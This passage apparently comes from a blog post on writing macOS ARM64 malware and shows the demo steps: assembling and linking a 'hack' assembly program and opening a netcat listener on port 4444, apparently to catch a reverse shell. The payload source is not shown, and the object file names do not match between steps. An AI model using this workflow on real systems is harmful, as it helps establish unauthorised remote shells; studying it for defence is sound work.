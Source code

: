### demo

Let's go to see this in action. Compile:    

```bash
as -arch arm64 hack.s -o hack.o
```

![malware](/assets/images/180/2025-10-15_10-11.png){:class="img-responsive"}    

then link:    

```bash
ld -arch arm64 -e _start -o hack2 hack2.o -lSystem -syslibroot $(xcrun --sdk macosx --show-sdk-path)
```

![malware](/assets/images/180/2025-10-15_10-12.png){:class="img-responsive"}    

Then run listener in the first terminal:    

```bash
nc -l -p 4444
```
